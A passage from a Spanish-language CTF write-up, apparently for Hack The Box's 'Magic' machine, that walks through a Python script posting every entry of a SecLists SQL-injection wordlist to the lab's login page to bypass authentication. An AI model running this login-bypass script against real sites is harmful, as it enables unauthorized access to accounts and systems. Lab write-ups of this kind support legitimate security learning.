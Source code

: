 ```console
```
Cualquiera de estas inyecciones lograra el bypass del login. :)

## Script de fuerza bruta manual.

Ahora vamos a hacerlo manual.

Colocamos la cabecera,importamos las librerías y definimos las variables a utilizar.
```python
#!/usr/bin/env python3
import requests,signal,sys
from pwn import *

#Variables globales
dic =[] 
p1 = log.progress("Inyección")
```

Abrimos el diccionario y con un ciclo for vamos recorriendo linea por linea mientras las agregamos a nuestra lista.

```python
with open("/usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt","r") as f:
	for linea in f:
		palabra = linea.strip() #Elimina el espacio final de la cadena en este caso un espacio en blanco.
		dic.append(palabra) #Agregamos cada linea al dic[]
```
Creamos un método para manejar la salida del programa.

```python
def handler(key,frame):
	print("Adios!!")
	sys.exit(0)

signal = signal.signal(signal.SIGINT,handler)
```

Creamos otro método que enviara la petición con cada una de las inyecciónes.

```python
def ataque(inyeccion): #Recibe como parámetro la inyección que se va enviar.
	url = "http://magic.htb/login.php" #Definimos la url.

	data1={ #Definimos la data.
		"username":inyeccion,
		"password":inyeccion
	}

	r1 = requests.post(url,data=data1) #Enviamos la data.
	if("Select Image to Upload" in r1.text): #Si el texto Select Image to Upload se encuentra en la respuesta significa que la inyección fue la correcta.
		log.info("Inyección Correcta: {}".format(inyeccion)) #Imprimimos la inyeccion correcta.
```
